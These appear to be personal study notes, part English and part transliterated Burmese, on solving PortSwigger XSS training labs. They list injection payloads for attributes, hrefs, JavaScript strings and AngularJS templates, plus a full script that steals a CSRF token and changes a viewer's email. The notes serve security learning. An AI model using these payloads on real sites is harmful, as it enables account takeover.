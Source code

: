 
**** input box tway myar yin burp ko use

"onmouseover="alert(1)    => i use this payload cuz this site protect with ''  => everything i text is protect by ''

***
*** `javascript:alert(1)`         =>  my input value is at href tag  " "

![[Pasted image 20230109133126.png]]
	

-------------

`'-alert(1)-'`    => banned <script></script>

![[Pasted image 20230109141412.png]]

Banned <> character

![[Pasted image 20230109141533.png]]


--------------------------

Case => everything we put is cover with ''   and close with ''  / so we command like this

![[Pasted image 20230112135125.png]]


-----

Product id net tway det har

![[Pasted image 20230115170128.png]]

=> sotreid ka window.location net pay htar dal => dangerous

![[Pasted image 20230115170415.png]]

Al lo paw lar dal 

https://0a640027038353cdc0a4c2fb00eb009c.web-security-academy.net/product?productId=5&storeId=aaaa"><script>alert(1)</script>


---
=> App with Angula JS and found to use ng-app

![[Pasted image 20230115180336.png]]

 => Here is payload  for this problem `{{$on.constructor('alert(1)')()}}`

----
`\"-alert(1)}//`    => that's also good payload  to cover with ''

![[Pasted image 20230115183512.png]]


------

XSS to CSRF 

`<script> var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/my-account',true); req.send(); function handleResponse() { var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; var changeReq = new XMLHttpRequest(); changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@test.com') }; </script>`

This above script will change email address for the person who was seen this comment  
email will change to test@test.com

------

